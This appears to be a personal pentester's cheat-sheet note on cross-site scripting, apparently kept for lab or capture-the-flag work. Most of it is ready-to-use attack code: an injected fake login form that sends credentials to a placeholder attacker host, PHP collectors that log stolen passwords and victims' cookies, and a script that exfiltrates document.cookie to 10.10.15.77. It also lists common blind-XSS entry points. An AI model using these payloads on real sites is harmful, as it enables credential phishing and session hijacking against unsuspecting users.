 #xss
#cheatseet
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

automation:
https://github.com/mandatoryprogrammer/xsshunter-express

give it a try for stored xss:
* evil svg
* pdf for xss
* `<img src=x onerror=alert(1) />`

typical payload:
blink: ip, cookie, url

**DOM XSS payload**:
[[DOM-based XSS]]
```html
<img src="" onerror=alert(window.origin)>
```

example payload of login form for DOM XSS:
```javascript
'><script>document.write('<h3>Please login to continue</h3><form action=http://PWNIP:PWNPO><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

server:
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.10.15.77/phishing/index.php");
    fclose($file);
    exit();
}
?>
```


```html
<img src=x onerror="&#x61;lert(1)">
```

#### Blind XSS

Common places:
- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

#### Example of hijacking cookies:
[[Session hijacking]]
Run server:
```php
php -S 0.0.0.0:8000
```

`index.php`
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
script.js
```js
new Image().src='http://10.10.15.77:8000/index.php?c='+document.cookie;
```
payload:
```html
"><script src=http://10.10.15.77:8000/script.js></script>
```
